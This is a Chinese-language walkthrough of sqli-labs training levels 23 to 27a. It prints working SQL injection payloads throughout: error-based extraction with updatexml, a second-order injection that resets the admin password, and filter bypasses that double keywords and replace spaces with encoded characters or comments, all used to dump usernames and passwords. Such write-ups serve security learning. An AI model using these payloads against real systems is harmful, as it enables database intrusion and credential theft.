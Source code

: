 ### Less-23
过滤了`#` 和`--+`等闭合的符号，所以通过 `or '1'='1` 来闭合后面的引号,仍然使用之前的报错原理
```
-1' and updatexml(1,concat(0x7e,(select database()),0x7e),1) or '1'='1
```
<!--more-->
获取security数据库的所有表单
```
-1' and updatexml(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema='security'),0x7e),1) or '1'='1
```
![](image/61.png)
获取user表所有字段
```
-1' and updatexml(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_schema='security' and table_name='users'),0x7e),1) or '1'='1
```
获取username/password
```
-1' and updatexml(1,concat(0x7e,(select group_concat(username) from users),0x7e),1) or '1'='1
-1' and updatexml(1,concat(0x7e,(select group_concat(password) from users),0x7e),1) or '1'='1
```
如果长度不够，可以通过limit 0,1这样的手法拿到所有数据

### Less-24 
#### 二次注入，可以概括为以下两步:
第一步：插入恶意数据
进行数据库插入数据时，对其中的特殊字符进行了转义处理，在写入数据库的时候又保留了原来的数据。

第二步：引用恶意数据
开发者默认存入数据库的数据都是安全的，在进行查询时，直接从数据库中取出恶意数据，没有进行进一步的检验的处理。
本地登录的地方我们发现万能密码失败，于是查看源码
```
$username = mysql_real_escape_string($_POST["login_user"]);
$password = mysql_real_escape_string($_POST["login_password"]);
$sql = "SELECT * FROM users WHERE username='$username' and password='$password'";
```
由于对于我们的账号密码使用`mysql_real_escape_string`转义过。
本题可以采用二次注入
1. 首先创建一个user叫做`admin'#`,密码随意，我们可以看到，数据库中真的就出现了这么一条数据
2. 然后使用`admin'#`加上自己的密码登录
3. 然后修改密码为123456，最后效果居然是将admin用户改为123456的密码，自己新建的账号密码还是自己设定的
##### why?
首先我们看更新密码的查询语句为
```
$sql = "UPDATE users SET PASSWORD='$pass' where username='$username' and password='$curr_pass' ";
```
这是因为上面的数据库更新语句，在用户名为 "admin'#" 时执行的实际是：
```
$sql = "UPDATE users SET PASSWORD='$pass' where username='admin'#' and password='$curr_pass' ";
```
等同于
```
$sql = "UPDATE users SET PASSWORD='$pass' where username='admin';
```

### Less-25
把 or、and过滤了,其实好像也没怎么用上，而且发现只是一次过滤，通过双写绕过，那么和第一题就差不多了
比如order中有or所以可以写成oorrder,将其中的一个or过滤后剩下为order
```
-1' union select 1,2,group_concat(schema_name) from infoorrmation_schema.schemata%23
```
### Less-25a
先寻找注入点
```
1" oorr 1 %23
1' oorr 1 %23
1 oorr 1 %23
```
只有第三种没啥问题，所以本题就是不需要加引号直接注入
```
-1' union select 1,2,group_concat(schema_name) from infoorrmation_schema.schemata%23
```
### Less-26
空格与注释被过滤了,最后的注释可以使用`or '1'='1` 来闭合，
然后空格可以用这些代替
```
%09 = TAB键（水平）

%0a = 新建一行

%0c = 新的一页

%0d = return功能

%0b = TAB键（垂直）

%a0 = 空格

&&(%26%26) = and
```
使用报错注入
```
0'||updatexml(1,concat(0x7e,(database()),0x7e),1)||'1'='1
```
这样是没问题的，然后爆库
```
0%27||updatexml(1,concat(0x7e,(select%0Agroup_concat(schema_name)%0Afrom%0Ainfoorrmation_schema.schemata),0x7e),1)||%271%27=%271
```
然后不行了，黑人问号？
试试直接拿数据
```
0%27||updatexml(1,concat(0x7e,(select%0agroup_concat(username)%0afrom%0ausers),0x7e),1)||%271%27=%271
```
![](image/63.png)
![](image/62.png)
最后网上有师傅回答是windows系统的缘故？然后发现可以用括号过滤乖乖
```
0'||extractvalue(1, concat(0x5c,(select(group_concat(table_name))from(infoorrmation_schema.tables)where(table_schema)=database())))||'1'='1
```
表名
```
0'||updatexml(1,concat('$',(select(group_concat(table_name))from(infoorrmation_schema.tables)where(table_schema='security'))),0)||'1'='1
```
字段名
```
0'||updatexml(1,concat('$',(select(group_concat(column_name))from(infoorrmation_schema.columns)where(table_schema='security')%26%26(table_name='users'))),0)||'1'='1
```
数据
```
0'||updatexml(1,concat('$',(select(concat('$',id,'$',username,'$',passwoorrd))from(users)where(username)='admin')),0)||'1'='1
```

### Less-26-a
题目提示空格与注释被过滤了而且加了括号，所以还是盲注解决吧(其实还是windows环境的锅导致%0a等不能实现，正经的服务器应该不会是windows的吧)
所以这样是可以de
```
100')union%a0select%a01,user(),('3
```
### Less-27
题目提示union与select被过滤了，可直接报错使用，当然也可以大小写来绕过还是上面的问题，因为windows的服务器，%0a不用，所以还是使用报错来写
```
0'||(updatexml(1,concat(0x5e5e,database()),1))||'1'='
```
然后想拿数据
```
0'||updatexml(1,concat('$',(select(concat('$',id,'$',username,'$',password))from(users)where(username)='admin')),0)||'1'='
```
很好就报错了
![](image/62.png)
然后发现有师傅提供了一种非常骚的做法,用`/*%0a*/`强行制造空格。awsl
```
0'/*%0a*/UnIoN/*%0a*/SeLeCt/*%0a*/2,database(),4/*%0a*/||/**/'1'='1
```
表名
```
0'/*%0a*/UnIoN/*%0a*/SeLeCt/*%0a*/2,(SeLeCt/*%0a*/group_concat(table_name)/*%0a*/from/*%0a*/information_schema.tables/*%0a*/where/*%0a*/table_schema='security'),4/*%0a*/||/*%0a*/'1'='1
```
字段名
```
0'/*%0a*/UnIoN/*%0a*/SeLeCt/*%0a*/2,(SeLeCt/*%0a*/group_concat(column_name)/*%0a*/from/*%0a*/information_schema.columns/*%0a*/where/*%0a*/table_schema='security'/*%0a*/%26%26/*%0a*/table_name='users'),4/*%0a*/||/*%0a*/'1'='1
```
数据
```
0'/*%0a*/UnIoN/*%0a*/SeLeCt/*%0a*/2,(SeLeCt/*%0a*/group_concat(concat_ws('$',id,username,password))/*%0a*/from/*%0a*/users),4/*%0a*/||/*%0a*/'1'='1
```
### Less-27-a
把单引号改成双引号即可
```
0"/*%0a*/UnIoN/*%0a*/SeLeCt/*%0a*/2,database(),4/*%0a*/||/**/"1"="1
```

[下一篇-28~37题详解](README7.md)
更多介绍？
[https://kit4y.github.io/tags/Sql-Injection/](https://kit4y.github.io/tags/Sql-Injection/)